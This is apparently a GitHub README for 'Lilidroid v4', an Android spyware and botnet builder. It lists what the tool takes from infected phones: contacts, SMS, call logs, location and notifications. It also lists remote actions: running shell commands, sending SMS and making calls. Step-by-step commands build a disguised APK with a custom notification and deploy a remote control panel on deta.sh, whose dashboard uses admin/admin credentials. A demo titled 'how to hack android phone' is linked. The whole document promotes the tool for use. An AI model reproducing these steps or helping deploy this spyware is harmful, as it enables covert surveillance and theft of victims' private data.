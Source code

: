 # Lilidroid v4
![Screenshot](https://raw.githubusercontent.com/Voytho/Lilidroid/master/img/IMG-20220122-WA0000_RdKN5Rv3U.jpg)

It's easy to use android botnet work without port forwarding, vps and android studio


### Features
- Retrive Contact
- Retrive SMS
- Retrive Services
- Retrive Device Location (Only work when the app is open on newer devices)
- Retrive Call Logs
- Run Shell Command
- Change Wallpaper
- Send SMS
- Make Call
- Get Installed Apps
- Download File
- Read Notification
- Auto-Start (May not work on a couple of devices)

### Requirement

- Python3
- Java
- Linux os

### Java version i used
```bash
$ java -version
openjdk version "11.0.13" 2021-10-19
OpenJDK Runtime Environment (build 11.0.13+8)
OpenJDK 64-Bit Server VM (build 11.0.13+8, mixed mode)
```

### How to setup
- Set up an account at [deta.sh](https://web.deta.sh/) its free.
- Click Deploy to Deta Button to configure your control panel.
- Clone Lilidroid-phprat repo with the following command.
```bash 
$ git clone https://github.com/Voytho/Lilidroid
```
- cd in the Lilidroid-phprat directory, then type the command below to install all dependencies
```bash
$ pip install -r requirements.txt
```
- Run the following command to see the options that we can use with the builder.
```bash
$ python Lilidroid.py    



██╗░░░░░██╗██╗░░░░░██╗██████╗░██████╗░░█████╗░██╗██████╗░  ██╗░░░██╗░░██╗██╗
██║░░░░░██║██║░░░░░██║██╔══██╗██╔══██╗██╔══██╗██║██╔══██╗  ██║░░░██║░██╔╝██║
██║░░░░░██║██║░░░░░██║██║░░██║██████╔╝██║░░██║██║██║░░██║  ╚██╗░██╔╝██╔╝░██║
██║░░░░░██║██║░░░░░██║██║░░██║██╔══██╗██║░░██║██║██║░░██║  ░╚████╔╝░███████║
███████╗██║███████╗██║██████╔╝██║░░██║╚█████╔╝██║██████╔╝  ░░╚██╔╝░░╚════██║
╚══════╝╚═╝╚══════╝╚═╝╚═════╝░╚═╝░░╚═╝░╚════╝░╚═╝╚═════╝░  ░░░╚═╝░░░░░░░░╚═╝                                                                                                     


usage: Lilidroid.py [-h] [-v] [-b]

Lilidroid v4.0 - A tool to build lilidroid spyware for Android devices.

options:
  -h, --help     show this help message and exit
  -v, --version  Version of Lilidroid
  -b , --build   Build Lilidroid with custom name [ex: Lilidroid.py -b lilidroid]
```
- To create an apk execute the following command.
```bash
$ python Lilidroid.py -b your_app_name
```
- It will prompt you with your Control Panel url enter your deta micro URL.
- You will also be prompted for the title and text of the notification. Enter what you want to display on the notification.
- DONE

[![Deploy](https://button.deta.dev/1/svg)](https://go.deta.dev/deploy?repo=https://github.com/Voytho/Lilidroid_api)

### Manually deploy the Lilidroid control panel
- Set up an account at [deta.sh](https://web.deta.sh/)
- Install [Deta Cli](https://docs.deta.sh/docs/cli/install)
- Logging in to Deta via the CLI
- Create a new Python Micro
- Clone [Lilidroidv4_api](https://github.com/Voytho/Lilidroid_api) repo
- Move all Lilidroidv4_api Files to your deta micro folder.
- Deploy the Control panel using the following command.
```bash
$ deta deploy
```
### Dashboard
- visit : https://{your server url}/v4/overview
- defualt username/password is : admin/admin

### Demo Video
- Youtube : [how to hack android phone using Lilidroid v4](https://www.youtube.com/)

### Support me
[!["Buy Me A Coffee"](https://www.buymeacoffee.com/assets/img/custom_images/orange_img.png)](https://www.buymeacoffee.com/felusiekf)

### Contact info 
- Email : felusiek@gmail.com
- Discord : https://discord.gg/
